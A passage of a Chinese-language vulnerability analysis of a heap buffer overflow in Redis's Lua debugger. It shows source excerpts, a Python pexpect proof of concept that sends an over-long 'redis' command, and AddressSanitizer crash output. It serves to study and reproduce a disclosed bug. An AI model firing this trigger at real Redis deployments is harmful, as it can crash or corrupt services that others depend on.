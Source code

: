   
  
追踪ldbRedis的调用链，发现它并不是redis-cli的一个功能，而是作为ldb的一个命令实现的。在调用redis命令时传递超长参数即可触发漏洞。  
  
  
```
intldbRepl(lua_State *lua) {    sds *argv;int argc;/* We continue processing commands until a command that should return     * to the Lua interpreter is found. */while(1) {        .../* Execute the command. */if (!strcasecmp(argv[0],"h") || !strcasecmp(argv[0],"help")) {            ...        } else if (!strcasecmp(argv[0],"s") || !strcasecmp(argv[0],"step") ||                   !strcasecmp(argv[0],"n") || !strcasecmp(argv[0],"next")) {            ldb.step = 1;break;        ...        } else if (argc > 1 &&                   (!strcasecmp(argv[0],"r") || !strcasecmp(argv[0],"redis"))) {# ldb的一个命令→           ldbRedis(lua,argv,argc);ldbSendLogs();        ...    }    ...}
```  
  
##   
## PoC  
  
根据上述分析，通过反复尝试发现，40个参数即可触发漏洞，构造PoC如下：  
  
  
```
import pexpectcli = "src/redis-cli --ldb --eval rand.lua"proc = pexpect.spawn(cli)proc.expect("debugger>")cmd = "redis"arg = " 1"num = 40for i in range(num):    cmd += argproc.sendline(cmd)proc.interact()
```  
  
  
  
ASAN追踪漏洞，与上述分析一致。  
  
  
```
=43633==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x517000000350 at pc 0x562ff46d6e35 bp 0x7ffd931e6920 sp 0x7ffd931e6918WRITE of size 8 at 0x517000000350 thread T0#0 0x562ff46d6e34 in lua_pushlstring /opt/redis-6.2.5/deps/lua/src/lapi.c:448#1 0x562ff45e44f6 in ldbRedis /opt/redis-6.2.5/src/scripting.c:2563#2 0x562ff45e551a in ldbRepl /opt/redis-6.2.5/src/scripting.c:2694#3 0x562ff45e5c5b in luaLdbLineHook /opt/redis-6.2.5/src/scripting.c:2767#4 0x562ff46e1ae2 in luaD_callhook /opt/redis-6.2.5/deps/lua/src/ldo.c:198#5 0x562ff4702bce in traceexec /opt/redis-6.2.5/deps/lua/src/lvm.c:75#6 0x562ff4706057 in luaV_execute /opt/redis-6.2.5/deps/lua/src/lvm.c:394#7 0x562ff46e3ad4 in luaD_call /opt/redis-6.2.5/deps/lua/src/ldo.c:378#8 0x562ff46d9884 in f_call /opt/redis-6.2.5/deps/lua/src/lapi.c:800#9 0x562ff46e0bdd in luaD_rawrunprotected /opt/redis-6.2.5/deps/lua/src/ldo.c:116#10 0x562ff46e4728 in luaD_pcall /opt/redis-6.2.5/deps/lua/src/ldo.c:464#11 0x562ff46d9a8e in lua_pcall /opt/redis-6.2.5/deps/lua/src/lapi.c:821#12 0x562ff45de99d in evalGenericCommand /opt/redis-6.2.5/src/scripting.c:1598#13 0x562ff45e175b in evalGenericCommandWithDebugging /opt/redis-6.2.5/src/scripting.c:2030#14 0x562ff45df254 in evalCommand /opt/redis-6.2.5/src/scripting.c:1699#15 0x562ff44b79a5 in call /opt/redis-6.2.5/src/server.c:3717
```  
  
#   
# 参考文献  
  
[1] https://github.com/redis/redis/security  
  
[2] https://redrays.io/blog/redis-cve-2024-31449-how-to-reproduce-and-mitigate-the-vulnerability/  
  
[3] https://rop4.sh/posts/exit2gc/  
  